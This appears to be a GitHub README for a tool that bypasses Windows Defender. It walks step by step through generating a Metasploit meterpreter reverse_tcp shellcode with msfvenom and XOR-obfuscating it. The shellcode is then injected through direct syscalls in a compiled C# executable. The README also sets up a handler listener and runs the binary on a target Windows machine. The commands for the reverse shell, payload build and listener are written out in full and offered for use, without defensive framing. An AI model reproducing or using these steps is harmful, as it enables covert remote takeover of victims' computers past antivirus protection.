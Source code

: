 # Bypass-AV-DirectSyscalls
Scripts to bypass Windows Defender antivirus protection using the Direct Syscalls technique with an injection of shellcode previously obfuscated with an XOR function.

<p align="center">
    This project is translated from :
    <br />
    <a href="https://github.com/Processus-Thief/Bypass-AV-DirectSyscalls"><strong>https://github.com/Processus-Thief/Bypass-AV-DirectSyscalls</strong></a>
  </p>
</div>

<br /><br />

### Usage

1. Generate a Metasploit meterpreter in the form of a shellcode with msfvenom inside your Kali Linux :
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f csharp
```
2. Install Visual Studio Code on your PC : https://code.visualstudio.com/download

3. Install C# and PowerShell 7 extensions in VS Code. Open the terminal inside VS Code.

4. Install a .NET SDK (recommended 7.0) : https://dotnet.microsoft.com/en-us/download

5. Create a new DotNet project in Visual Studio Code, its recommended to change directory to your Desktop (create a new folder for it) :
```  
cd Desktop
mkdir XorCipher
cd XorCipher
dotnet new console
```
6. Replace the contents of Program.cs with the contents of XorCipher.cs and replace the shellcode with that generated with msfvenom.
7. Generate the solution in the form of a PE file with its embedded libraries :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
8. The exe file will be generated in the folder bin\Release\net7.0\win-x64\publish of the project, run the compiled file in a command prompt :
```
.\XorCipher.exe
```
9. Create a second DotNet project (create a new folder on your Desktop) in another instance of Visual Studio Code :
```
cd Desktop
mkdir DirectSyscalls
cd DirectSyscalls
dotnet new console
```
10. Install the dependency DInvoke :
```
dotnet add package DInvoke --version 1.0.4
```
11. Replace the contents of Program.cs with the contents of DirectSyscalls.cs and replace the shellcode with that generated with XorCipher.exe
12. Generate the solution in the form of a PE file with its embedded libraries, the exe will be generated in the folder bin\Release\net7.0\win-x64\publish of the project :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
13. Launch a listener in the metasploit console inside your Kali Linux :
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <SERVER>
set lport <PORT>
exploit
```
14. Launch the compiled exe on the target computer (it must be Windows). Enjoy :)
